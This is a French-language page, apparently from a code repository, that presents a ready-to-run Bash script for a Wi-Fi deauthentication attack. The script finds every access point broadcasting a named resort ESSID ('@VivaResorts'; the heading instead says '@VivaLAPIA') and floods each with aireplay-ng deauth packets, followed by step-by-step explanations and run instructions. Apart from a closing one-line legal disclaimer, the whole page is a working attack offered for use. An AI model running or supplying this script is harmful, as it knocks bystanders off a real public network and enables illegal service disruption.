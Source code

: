 - Script Bash pour déauthentifier tous les appareils connectés aux points d'accès avec l'ESSID `@VivaLAPIA`.
- Ce script va utiliser `aireplay-ng` pour envoyer des paquets de déauthentification à tous les BSSIDs correspondants.

```bash
#!/bin/bash

# Définir les variables
INTERFACE="wlan0"
ESSID="@VivaResorts"
DURATION=60  # Durée de capture en secondes

# Arrêter Network Manager
echo "[+] Arrêt de Network Manager..."
sudo systemctl stop NetworkManager

# Mettre l'interface en mode moniteur manuellement
echo "[+] Mise de l'interface en mode moniteur..."
sudo ifconfig $INTERFACE down
sudo iwconfig $INTERFACE mode monitor
sudo ifconfig $INTERFACE up

# Vérifier le mode moniteur
echo "[+] Vérification du mode moniteur..."
iwconfig $INTERFACE | grep "Mode:Monitor"
if [ $? -ne 0 ]; then
    echo "[-] Le mode moniteur n'est pas activé sur $INTERFACE"
    exit 1
fi

# Capture du trafic réseau pour identifier les BSSIDs avec l'ESSID spécifique
echo "[+] Capture du trafic réseau pour identifier les BSSIDs avec l'ESSID spécifique..."
sudo airodump-ng --essid $ESSID --write capture --output-format csv $INTERFACE &
AIRODUMP_PID=$!

# Laisser le temps de capturer
sleep $DURATION

# Arrêter la capture
echo "[+] Arrêt de la capture..."
sudo pkill airodump-ng

# Extraire les BSSIDs du fichier de capture
echo "[+] Extraction des BSSIDs du fichier de capture..."
BSSIDs=$(grep "$ESSID" capture-01.csv | awk -F',' '{print $1}' | sort -u)

if [ -z "$BSSIDs" ]; then
    echo "[-] Aucun BSSID trouvé pour l'ESSID $ESSID"
    exit 1
fi

# Désauthentification des clients
echo "[+] Désauthentification des appareils..."
for BSSID in $BSSIDs; do
    echo "[-] Désauthentification des appareils sur BSSID: $BSSID"
    sudo aireplay-ng --deauth 0 -a $BSSID $INTERFACE &
done

# Laisser le temps de désauthentifier
sleep 10

# Arrêter la désauthentification
echo "[+] Arrêt de la désauthentification..."
sudo pkill aireplay-ng

# Remettre l'interface en mode géré et redémarrer Network Manager
echo "[+] Remise de l'interface en mode géré..."
sudo ifconfig $INTERFACE down
sudo iwconfig $INTERFACE mode managed
sudo ifconfig $INTERFACE up

echo "[+] Redémarrage de Network Manager..."
sudo systemctl start NetworkManager

echo "[+] Désauthentification complète terminée"
```

### Explications étape par étape :
1. **Arrêt de Network Manager** :
    - Empêche Network Manager de perturber les opérations du mode moniteur.

2. **Mise en mode moniteur** :
    - Place l'interface sans fil en mode moniteur pour capturer les paquets.

3. **Vérification du mode moniteur** :
    - S'assure que l'interface est correctement configurée en mode moniteur.

4. **Capture du trafic réseau** :
    - Utilise `airodump-ng` pour capturer le trafic réseau et identifier les BSSIDs avec l'ESSID spécifié.

5. **Extraction des BSSIDs** :
    - Extrait les BSSIDs du fichier de capture correspondant à l'ESSID spécifié.

6. **Désauthentification des appareils** :
    - Utilise `aireplay-ng` pour envoyer des paquets de déauthentification à chaque BSSID trouvé.

7. **Arrêt des opérations et nettoyage** :
    - Remet l'interface en mode géré et redémarre Network Manager.

### Exécution du script :
- Sauvegardez le script dans un fichier, par exemple `deauth_vivaresorts.sh`.
- Rendez-le exécutable : `chmod +x deauth_vivaresorts.sh`.
- Exécutez-le avec des privilèges root : `sudo ./deauth_vivaresorts.sh`.

Assurez-vous d'avoir les permissions nécessaires pour effectuer ces opérations et soyez conscient des implications légales et éthiques de l'utilisation de ce script.
